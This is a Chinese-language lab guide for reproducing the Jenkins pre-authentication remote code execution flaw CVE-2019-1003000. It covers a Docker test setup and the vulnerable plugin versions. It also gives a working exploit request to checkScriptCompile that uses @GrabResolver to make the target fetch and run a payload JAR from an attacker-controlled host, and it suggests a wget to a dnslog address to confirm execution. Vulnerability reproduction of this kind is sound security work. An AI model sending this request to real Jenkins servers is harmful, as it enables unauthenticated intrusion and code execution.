


# Jenkins 远程代码执行漏洞（CVE-2019-1003000)


## 原理

参考阅读:

https://blog.orange.tw/2019/01/hacking-jenkins-part-1-play-with-dynamic-routing.html
http://blog.orange.tw/2019/02/abusing-meta-programming-for-unauthenticated-rce.html
https://github.com/petercunha/Jenkins-PreAuth-RCE-PoC

## 测试环境搭建
测试环境编译及运行：

```
docker pull her0ma/CVE-2019-1003000
docker run -d -p 8080:8080 her0ma/cve-2019-1003000
```
也可以进入当前文件所在目录，基于Dockerfile构建镜像并搭建漏洞环境，操作如下：

1、基于Dockerfile构建镜像

```
docker build -t cve-2019-1003000 .
```
2、下载漏洞插件，下载地址如下：

* Pipeline: Declarative插件1.3.4版本  
https://mirrors.tuna.tsinghua.edu.cn/jenkins/plugins/pipeline-model-definition/1.3.4/pipeline-model-definition.hpi

* Script Security插件1.48版本  
https://mirrors.tuna.tsinghua.edu.cn/jenkins/plugins/script-security/1.48/script-security.hpi
* Pipeline: Groovy插件2.60版本  
https://mirrors.tuna.tsinghua.edu.cn/jenkins/plugins/workflow-cps/2.60/workflow-cps.hpi

3、运行并进入容器，查看初始密码，初始密码位置

```
/var/jenkins_home/secrets/initialAdminPassword
```
4、安装推荐插件，设置管理密码，并登陆管理账号,插件管理-高级功能，上传安装上文中下载的三个漏洞插件。

5、安装插件完成之后，选择重启Jenkins。
## 测试过程
### 1、生成执行命令的Jar文件
生成执行命令的jar包所需的文件都在payload目录下，如下：

* Payload.java 执行命令的Java文件源代码，可以根据测试情况修改其中的命令。
* META-INF 目录中保存了执行JAR包所依赖的方法类

执行build.sh文件，编译生成jar包。

### 2、将jar包放到另外一台可访问的web目录下
存在payload-1.jar文件的目录很重要，如：

```
http://Exploit-HOST/package/payload/1/payload-1.jar
http://Exploit-HOST/package/payload/2/payload-2.jar
```

### 3、访问漏洞利用URL，执行命令
具体漏洞测试url如下：

```
http://<TARGET HOST>/securityRealm/user/admin/descriptorByName/org.jenkinsci.plugins.workflow.cps.CpsFlowDefinition/checkScriptCompile
?value=
@GrabConfig(disableChecksums=true)%0a
@GrabResolver(name='payload', root='http://<EXPLOIT HOST>')%0a
@Grab(group='package', module='payload', version='1')%0a
import Payload;
```
EXPLOIT HOST是保存了JAR文件的服务器IP或域名，group、module、version的值对应了该jar文件的存放路径。修改version的值，对应的jar包的访问路径和文件名也需要发生改变。

访问url的时候，成功利用的之后，请求回显如图：



查看EXPLOIT HOST的web日志，会看到如下记录：



说明成功请求下载了执行命令的jar文件，进入容器，可以在如下目录中看到对应的jar文件：


可利用wget dnslog地址的方式来判断是否成功执行了命令，成功的如图：


